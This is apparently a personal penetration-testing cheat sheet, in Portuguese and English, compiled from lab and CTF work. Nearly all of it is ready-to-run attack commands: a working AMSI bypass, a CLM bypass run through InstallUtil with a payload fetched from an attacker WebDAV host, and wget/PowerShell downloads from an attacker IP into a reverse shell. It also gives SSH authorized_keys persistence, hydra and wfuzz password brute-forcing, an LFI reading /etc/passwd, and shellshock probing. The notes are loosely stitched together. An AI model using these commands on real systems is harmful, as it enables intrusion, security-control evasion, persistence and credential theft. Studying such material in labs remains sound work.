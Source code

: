 ### RDP

For windows with share and 85% screen

```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```


Para habilitar o acesso RDP:

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
```

Para desabilitar o acesso RDP:

shell

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 1 /f
```





### Linux

binaries Path

```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

###  Interactive Shell

Arrumando interactive TTY using Python

```shell
# Enter while in reverse shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo; fg


# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```




### File Transfer

#### HTTP

The most common le transfer method.

```shell
# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```


### Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## Chave privada cracking

Seguindo a metodologia de cracking, nosso próximo passo é transformar o chave privada em formato hash para nossas ferramentas de cracking. Usaremos o **ssh2john** script de transformação do conjunto JtR e salve o hash resultante para **ssh.hash**.

```shell
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```


##### WEBDAV

```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

## AMSI bypass

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf =  @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## CLM

Para bypassar o CLM, usei o seguinte methodo: https://github.com/calebstewart/bypass-clm

Primeiro subi o webdav para hostear o payload:
- https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe

```sh
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Depois montei o webdav no alvo:

```shell
net use Z: http://192.168.45.151
```

Copiei o payload para a pasta tasks:

```shell
copy Z:\PsBypassCLM.exe C:\Windows\Tasks\bypass-clm.exe
```

Rodei o bypass:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\Windows\Tasks\bypass-clm.exe"
```

Consegui bypassar o CLM

```powershell
PS C:\windows\tasks> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
FullLanguage
```

## MSSQL Client

- https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py

## SSH-KEYGEN

Vamos dar uma olhada na máquina linuxvictim no laboratório. Se obtivermos acesso como usuário _linuxvictim_ ou _root_ , podemos adicionar uma chave pública SSH ao arquivoauthorized_keys do _linuxvictim_ para manter o acesso. Para fazer isso, primeiro precisaremos criar um par de chaves SSH em nossa Kali VM.

Podemos configurar um par de chaves SSH em nossa VM Kali com ssh-keygen .

```
kali@kali:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:VTLfYd2shCqYOTkpZqeHRrqxnKjyVViNgbmVMpKyEug root@kali
The key's randomart image is:
+---[RSA 2048]----+
|.  . o..  o ..oo.|
|+ o = o+   =.o..+|
|.+ . =o*. ...... |
|oE  *oX ...   .  |
|.  =.=.oS.       |
|  o +..          |
| o *..           |
|o =.             |
|+..              |
+----[SHA256]-----+
```

> Listagem 11 – Gerando um par de chaves SSH

Se aceitarmos os valores padrão para o caminho do arquivo, um par de arquivos será criado em nosso diretório ~/.ssh/ . Obteremos id_rsa para a chave privada e id_rsa.pub para a chave pública. Podemos então capturar o conteúdo de id_rsa.pub e copiá-lo para a área de transferência.

Na máquina linuxvictim, podemos inserir a chave pública no arquivoauthorized_keys do usuário _linuxvictim_ com o seguinte comando.

```
linuxvictim@linuxvictim:~$ echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8= kali@kali" >> /home/linuxvictim/.ssh/authorized_keys
```


```
hydra -l marujo -P /usr/share/wordlists/rockyou.txt -t 3 -f 192.168.90.43 http-post-form "/?action=login:username=^USER^&password=^PASS^:Usuário ou senha inválido\!"

hydra -l admin -P /usr/share/wordlists/rockyou.txt -o saida.txt 192.168.90.84 http-get /webdav
 wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 401 --basic admin:FUZZ http://192.168.90.194/upload  
gobuster dir -u http://192.168.90.77/cmd/ -w /usr/share/wordlists/dirb/big.txt -o gobuster90-77.txt

john --wordlist=/usr/share/wordlists/rockyou.txt admin 
```

```
Através desse "get_picture=" conseguimos exibir arquivos da máquina usando:

file:///
Então a URL ficou assim:

http://192.168.90.43/?get_picture=file:///arquivo
Pegamos o passwd com:

http://192.168.90.43/?get_picture=file:///etc/passwd
retorno:
```






> Listagem 12 – Inserindo a chave pública

Podemos então fazer ssh de nossa VM Kali usando nossa chave privada para a máquina _linuxvictim_ e fazer login como usuário _linuxvictim_ sem uma senha. Se não especificarmos uma chave privada SSH para usar, o cliente SSH usará aquela em ~/.ssh/id_rsa .

```
kali@kali:~$ ssh linuxvictim@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
linuxvictim@linuxvictim:~$ 
```


Gerar Wordlist
```
crunch 4 4 1234567890 -o wordist.txt
```

CGI-BINS
Testei o cgi-bin sem sucesso:
(https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)
```
┌──(root💀naboo)-[/home/legunner/CTF/ctf90-84]
└─# python3 shellshocker.py https://192.168.90.84/cgi-bin/admin.cgi
```
